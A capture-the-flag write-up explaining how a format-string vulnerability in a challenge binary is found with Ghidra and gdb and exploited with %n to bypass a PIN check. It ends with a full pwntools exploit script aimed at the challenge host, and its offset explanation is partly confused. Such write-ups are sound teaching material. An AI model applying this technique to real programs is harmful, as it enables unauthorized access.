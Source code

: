# Catagory: PWN
## Description
### Level: Easy

![desc](https://github.com/user-attachments/assets/b2559bb8-bd8c-47f7-a719-0ab7f67abdef)

## Approach

Running `checksec` on the chall!

![checks](https://github.com/user-attachments/assets/7a838479-0e3e-4a45-a0d3-c66c6de330a3)

## Running the binary

![binary](https://github.com/user-attachments/assets/a5287302-7a99-4deb-9b40-c8ccf748b1a1)

We see a cool menu, I played with the options for a few minutes then fired up ghidra to see what's going on.

![ghdr](https://github.com/user-attachments/assets/e57e046e-d206-4db2-81f1-d7ae6c296792)

Looking at the decompiled main and the functions, we see that if we change the channel to 6 it'll prompt for a pin.

![pinpop](https://github.com/user-attachments/assets/161f0d91-f11e-42ef-b930-b8451e5a18ff)

And it pops up how many tries left. Cool. 

![fmt](https://github.com/user-attachments/assets/2c3b6047-0962-43f6-b5e7-c2ef1442f4c1)

Back with Ghidra again, and looking at the **programming mode** option, it's getting our input from stdin with **fgets()** then printing back to us with **printf()** but without specifying the format. If you don't know about what is format string, and how to exploit it you should check these cool writeups:

<p>https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/</p>
<p>https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html</p>
<p>https://axcheron.github.io/exploit-101-format-strings/</p>

![leak2](https://github.com/user-attachments/assets/d627aafb-9316-462c-a2ba-5112585db671)

Woah! We leaked bunch of stuff. What else we can use instead of `%lx`? I'll try speedrun a few things.  

`%lx` leaks 8 bytes           
`%x` leaks 4 bytes             
`%hx` leaks 2 bytes            
`%hhx` leaks only a byte 

`%7$x` prints the 7th parameter (on the stack).

`%s` dereferences a pointer and reads it until null byte.

`%n` dereferences a pointer from the stack and write the number of bytes 'displayed' so far to it.

`%9c%10$hhn` writes '9' to the dereferenced address of the tenth parameter on the stack .

Alright, cool. Let's check what we leaked on the stack with gdb.

![stacke](https://github.com/user-attachments/assets/fb5cafef-8950-42bf-bca5-b6b459ee4c07)

Okay, if you remember, the challenge was asking for a pin and calling **checkPin()**. Let's disassemble it.

![pincheck](https://github.com/user-attachments/assets/73a7d3e3-7a5c-4339-ac6e-048cb4ae8a68)

We see that its dereferencing a lot from rax to rax, then comparing with rdx, which is probably our input. 

![pinaddr](https://github.com/user-attachments/assets/31a216d4-2c91-423f-bd84-58e11406ea95)

In ghidra, we see that **pin** is set here in **main()**, and if we look at the **checkPin** again

![***pin](https://github.com/user-attachments/assets/a512a286-4a59-4bbe-b440-4f20d960adbc)

Again, dereferences but there isn't enough dereference to get *0x420* into **rax**. So its end up comparing an address with our input.

![compare](https://github.com/user-attachments/assets/82ccace0-317a-4ecf-a788-76c87b9a0a9d)

We can use **%n** in a way so it zero outs **rax** to pass the check but do we know the offset for %n? Yes, if we look at our leak: ( I accidentally nuked the previous gdb, so all the offset is gone. Don't look at back to the `%lx` output shown before to reason about it. <img src=https://i.pinimg.com/originals/44/bb/23/44bb2390afa1d4d8cc1d2399661399bf.gif width="150px" height="100px">)

![leak4](https://github.com/user-attachments/assets/5ecbab13-cf3b-474c-80ad-63cc71395367)

It is the 12th `%lx` so we need to use `%12$nn` to write into the dereferenced address of the 18th parameter on the stack. If you look at the stack I posted eariler, substract `0x7fffffffe450` from `0x7fffffffe3c8` divide it by `8` and add `1` or just count every `8 bytes` to the address, you'll see that it's not the 12th but the `18th` parameter! Because printf uses **rdi**, **rsi**, **rdx**, **rcx**, **r8** and **r9** to hold the address and the format string! If it's not enough to hold all the format strings, it uses the *stack*. So, if you're manually calculating the offset in gdb, don't forget to substract `6`. 

![wover](https://github.com/user-attachments/assets/1fc7f201-afa0-4053-94c4-fb6853cb7f3e)

And we succesfully overwrite it with "0"! Therefore passed the check!

![flag](https://github.com/user-attachments/assets/933b5016-1184-449f-9196-4dad7572da95)

## Full Exploit
```python
#!/usr/bin/env python3
from pwn import *

'''
p = gdb.debug("./thetv", gdbscript=""" 
    break *checkPin+35 
    continue 
 
""") 
''' 
p = remote("0.cloud.chals.io", 30658) 
p.recvuntil(b"> ") 
p.sendline(b"p") 

p.recvuntil(b"> ") 
p.sendline(b"%12$ln %12$lx") # %12$lx is not needed, its just to make sure we're writing into the correct address.  

p.recvuntil(b"You say: ") 
leak = p.recvline().strip() 
#print(leak) 
p.recvuntil(b"> ")  
p.sendline(b"c") 

p.recvuntil(b"> ")  
p.sendline(b"y") 

p.recvuntil(b"> ") 
p.sendline(b"6") 

p.recvuntil(b"the pin: ") 
p.sendline(b"0") 
p.interactive() 
```

![yay](https://tokyoking.github.io/assets/gifs/pretyyeasy.gif)

Pretty easy.











